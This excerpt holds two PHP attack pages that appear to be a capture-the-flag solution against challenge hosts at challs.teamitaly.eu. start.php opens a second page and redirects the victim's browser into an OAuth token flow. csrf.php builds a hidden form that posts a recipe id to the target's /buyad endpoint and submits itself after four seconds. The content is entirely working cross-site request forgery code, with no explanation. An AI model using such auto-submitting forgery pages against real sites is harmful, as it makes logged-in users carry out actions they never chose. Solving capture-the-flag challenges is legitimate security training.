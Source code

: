 ```php
// start.php

<?php
 $CSRFURL = "http://" . $_SERVER['HTTP_HOST'] . "/csrf.php";
 echo $CSRFURL;

 $AUTHURL = "http://uauth.challs.teamitaly.eu/auth?redirect_uri=http%3A%2F%2Flocalhost%3A3001%2Fcb&response_type=token";
 echo $AUTHURL;
?>

<script>
    window.open('<?php echo $CSRFURL;?>')
    document.location = '<?php echo $AUTHURL;?>'
</script>
```

```php
// csrf.php

<?php
 $RECIPEID = file_get_contents('./csrf_recipe_id.txt');
 $VICTIMURL = "http://saffron.challs.teamitaly.eu/buyad";
?>

<form action="<?php echo $VICTIMURL;?>" method="POST">
    <input name="recipeid" type="text" value="<?php echo $RECIPEID;?>" />
    <input name="ad" type="text" value="hello"/>
    <button type="submit" id="submit">Buy</button>
</form>

<script>
    setTimeout(() => {
        document.getElementById('submit').click()
    }, 4000);
</script>
```
